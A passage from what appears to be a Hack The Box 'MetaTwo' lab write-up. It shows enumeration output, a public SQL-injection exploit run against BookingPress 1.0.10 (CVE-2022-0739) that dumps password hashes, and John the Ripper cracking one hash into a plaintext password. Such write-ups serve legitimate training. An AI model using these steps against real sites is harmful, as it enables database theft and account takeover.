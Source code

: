 ```bash
/events               (Status: 301) [Size: 0] [--> http://metapress.htb/events/]
/feed                 (Status: 301) [Size: 0] [--> http://metapress.htb/feed/]
/0                    (Status: 301) [Size: 0] [--> http://metapress.htb/0/]
/atom                 (Status: 301) [Size: 0] [--> http://metapress.htb/feed/atom/]
/s                    (Status: 301) [Size: 0] [--> http://metapress.htb/sample-page/]
/a                    (Status: 301) [Size: 0] [--> http://metapress.htb/about-us/]
/c                    (Status: 301) [Size: 0] [--> http://metapress.htb/cancel-appointment/]
```
the only directory that I could come up with something from is the events directory and it was the version of the software used in handling the events which is `booking press 1.0.10` so I searched for an online exploit and I found this [github repository](https://github.com/destr4ct/CVE-2022-0739) which contains an automated script which exploit this  program and it basically exploit the program by sql injection in "wpnonce" paramter
![image](MetaTwo/img/2.png)
```bash
┌──(kali㉿kali)-[~/HTB/CVE-2022-0739]
└─$ python3 booking-press-expl.py -u http://metapress.htb/ -n 361e6b22d4
- BookingPress PoC
-- Got db fingerprint:  10.5.15-MariaDB-0+deb11u1
-- Count of users:  2
|admin|admin@metapress.htb|$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.|
|manager|manager@metapress.htb|$P$B4aNM28N0E.tMy/JIcnVMZbGcU
```
As you can see these passwords are hashed so I tried to crack it using johntheripper but the manager's password was the only one that could be cracked.
```bash
┌──(kali㉿kali)-[~/HTB/CVE-2022-0739]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hashed
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 SSE2 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
partylikearockstar (manager)     
1g 0:00:00:16 DONE (2023-04-26 10:42) 0.06142g/s 6781p/s 6781c/s 6781C/s penny6..onelove7
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed. 
```